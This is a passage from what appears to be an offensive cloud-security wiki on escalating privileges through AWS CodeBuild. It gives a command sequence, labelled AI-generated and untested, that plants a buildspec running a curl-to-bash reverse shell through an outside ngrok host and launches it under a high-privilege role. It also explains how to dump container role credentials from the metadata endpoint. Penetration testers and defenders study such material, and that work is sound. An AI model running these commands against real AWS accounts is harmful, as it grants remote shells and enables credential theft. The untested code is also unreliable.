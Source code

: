 ```bash
aws codebuild delete-project --name codebuild-demo-project
```
{% endtab %}

{% tab title="Example2" %}
{% code overflow="wrap" %}
```bash
# Generated by AI, not tested
# Create a buildspec.yml file with reverse shell command
echo 'version: 0.2
phases:
  build:
    commands:
      - curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash' > buildspec.yml

# Upload the buildspec to the bucket and give access to everyone
aws s3 cp buildspec.yml s3:<S3_BUCKET_NAME>/buildspec.yml

# Create a new CodeBuild project with the buildspec.yml file
aws codebuild create-project --name reverse-shell-project --source type=S3,location=<S3_BUCKET_NAME>/buildspec.yml --artifacts type=NO_ARTIFACTS --environment computeType=BUILD_GENERAL1_SMALL,image=aws/codebuild/standard:5.0,type=LINUX_CONTAINER --service-role <YOUR_HIGH_PRIVILEGE_ROLE_ARN> --timeout-in-minutes 60

# Start a build with the new project
aws codebuild start-build --project-name reverse-shell-project

```
{% endcode %}
{% endtab %}
{% endtabs %}

**Potential Impact:** Direct privesc to any AWS Codebuild role.

{% hint style="warning" %}
In a **Codebuild container** the file `/codebuild/output/tmp/env.sh` contains all the env vars needed to access the **metadata credentials**.

This file contains the **env variable `AWS_CONTAINER_CREDENTIALS_RELATIVE_URI`** which contains the **URL path** to access the credentials. It will be something like this `/v2/credentials/2817702c-efcf-4485-9730-8e54303ec420`

Add that to the URL **`http://169.254.170.2/`** and you will be able to dump the role credentials.

Moreover, it also contains the **env variable `ECS_CONTAINER_METADATA_URI`** which contains the complete URL to get **metadata info about the container**.
{% endhint %}

### `iam:PassRole`, `codebuild:UpdateProject`, (`codebuild:StartBuild` | `codebuild:StartBuildBatch`)

Just like in the previous section, if instead of creating a build project you can modify it, you can indicate the IAM Role and steal the token
